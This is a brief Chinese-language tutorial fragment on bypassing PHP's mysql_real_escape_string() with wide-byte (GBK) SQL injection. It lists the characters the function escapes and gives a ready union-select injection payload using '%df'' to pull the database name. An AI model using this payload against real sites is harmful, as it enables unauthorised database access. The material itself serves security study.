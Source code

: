  mysql_real_escape_string()

下列字符受影响

```
\x00
\n
\r
\
'
''
\x1a
```

如果成功，则该函数返回被转义的字符串。如果失败，则返回 false。



直接注

```
?id=-1%df' union select 1,2,database() --+
```

后续为一般步骤。
